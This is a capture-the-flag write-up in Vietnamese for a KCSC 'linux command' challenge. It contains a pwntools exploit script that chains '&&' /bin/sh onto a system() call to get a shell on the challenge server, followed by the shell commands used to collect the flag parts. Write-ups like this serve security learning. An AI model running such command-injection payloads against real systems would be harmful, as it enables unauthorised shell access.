










# linux command.
## Hướng Giải.

- Bước đầu tiên là ta sẽ phải lấy đc shell bằng cách cho `system` thực thi `/bin/sh` sau đấy ta mới bắt đầuu kiếm `flag` :>> .
- Check sơ qua source thì ta đc nhập vào biến `command` với size là 31 byte và `qmemcpy()` nó sẽ làm gì đấy với chuỗi `echo \"Welcom to KCSC\""` với size là 22 byte , tiếp theo là nó sẽ thực thi `system`.
- Cùng vào GDB debug xem `qmemcpy()` nó làm gì nhé :>> .

- Mình thử nhập vào đây 25 byte.

- Bạn có thể thấy `qmemcpy()` nó đã nhét chuỗi  `echo \"Welcom to KCSC\""` vào đầu biến `command` mà mình vừa nhập , đồng nghĩa với việc `system` sẽ bị cố định thực hiện câu lệnh trên, để `system` có thể thực thi `/bin/sh` ta có thể xài cách dể có thể `thực thi 2 lệnh cùng 1 command`, để làm đc vậy ta có thể xài `;` , `&&` hoặc `||`. Oke có hướng giải r ta tiến hành lấy shell nhaa.
```
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b*main+115
                b*main+172
                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('103.162.14.116', 12009)
else:
        p = process(exe.path)

GDB()
payload = b'a'*22 + b'&&' + b'/bin/sh\x00'
sla(b"What is your name: ",payload)

p.interactive()
```
- Script của tớ sẽ như trên.

- Ta đã lấy đc shell rồi , việc của mình là kiếm flag thui ( flag có  phần ).
- part 1 ở trong hàm `hidden` .

- part 2 trong file `part_2` mình chỉ việc `cat` là ra.

- part 3 trong file `part 3 in here` mình chỉ việc `cat` là ra.

- part 4 là file bị ẩn ta chỉ cần xài lệnh `ls -al` và cat là ra.

- part 5 đc hint ở trong part 4 là hãy `cat --help` , nhưng khi thử `cat --help` thì nó ra thế này :

- Nó là bảng hướng dẫn mình chỉ cần `cat ./--help` là đc :))). 
- 

`FLAG: KCSC{Linux_Commands_You_MUST_Know_bc6680c1a0d13d77_8d73c59185b1e412}`